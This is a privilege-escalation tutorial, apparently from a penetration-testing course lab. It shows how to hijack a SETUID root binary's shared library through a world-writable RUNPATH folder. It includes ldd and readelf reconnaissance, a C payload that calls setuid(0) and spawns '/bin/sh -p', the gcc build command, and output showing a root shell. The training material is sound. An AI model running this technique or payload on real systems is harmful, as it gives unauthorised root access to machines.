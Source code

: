 # Shared Object Hijacking

Programs and binaries under development usually have custom libraries associated with them. Consider the following SETUID binary.

```bash
Student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```
We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object. Ldd displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```bash
Student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```
We see a non-standard library named libshared.so listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the RUNPATH configuration. Libraries in this folder are given preference over other folders. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```bash
Student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

The configuration allows the loading of libraries from the /development folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in /development, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

```bash
Student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

Before compiling a library, we need to find the function name called by the binary.

```bash  
Student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
  
Student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)

Student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```
We can copy an existing library to the development folder. Running ldd against the binary lists the library's path as /development/libshared.so, which means that it is vulnerable. Executing the binary throws an error stating that it failed to find the function named dbquery. We can compile a shared object which includes this function.

```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```
The dbquery function sets our user id to 0 (root) and executing /bin/sh when called. Compile it using [GCC](https://linux.die.net/man/1/gcc).
```bash
Student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```
Executing the binary again should display the banner and pops a root shell.
```bash
Student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
